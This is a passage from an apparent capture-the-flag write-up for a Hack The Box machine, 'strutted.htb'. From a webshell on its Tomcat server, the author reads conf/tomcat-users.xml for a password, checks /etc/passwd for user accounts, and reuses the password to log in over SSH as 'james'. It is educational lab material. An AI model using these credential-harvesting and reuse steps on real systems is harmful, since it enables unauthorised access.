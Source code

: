 ```bash
drwxr-xr-x  2 tomcat tomcat 4096 Jan 15 14:30 lib
lrwxrwxrwx  1 root   root     17 Jul 20  2022 logs -> ../../log/tomcat9
drwxr-xr-x  2 root   root   4096 Jul 10 04:01 policy
drwxrwxr-x  4 tomcat tomcat 4096 Jul 10 04:55 webapps
lrwxrwxrwx  1 root   root     19 Jul 20  2022 work -> ../../cache/tomcat9
CMD >
```
{: .nolineno}
I am inside a `webshell` lets enumerate for any data/credentials from here 🔻

```bash
CMD > ls conf
Catalina
catalina.properties
context.xml
jaspic-providers.xml
logging.properties
policy.d
server.xml
tomcat-users.xml
web.xml
CMD > 

CMD > cat conf/tomcat-users.xml
....
...
<!--
  <user username="admin" password="<must-be-changed>" roles="manager-gui"/>
  <user username="robot" password="<must-be-changed>" roles="manager-script"/>
  <role rolename="manager-gui"/>
  <role rolename="admin-gui"/>
  <user username="admin" password="**********" roles="manager-gui,admin-gui"/>
--->
.....
...
CMD > 
```
{: .nolineno}
I got a password Lets see on which users I can used it on 🔻

![](Pasted%20image%2020250710112617.png)
_File `/etc/passwd` tells about the users present in the system_

Lets try ssh on user <b><span style="color:rgb(255, 0, 0)">james</span></b> with the found password 🔻

```bash
└─$ ssh james@strutted.htb                                           
The authenticity of host 'strutted.htb (10.10.11.59)' cant be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:69: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'strutted.htb' (ED25519) to the list of known hosts.
james@strutted.htbs password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-130-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Jul 10 04:59:59 AM UTC 2025

  System load:           0.0
  Usage of /:            69.5% of 5.81GB
```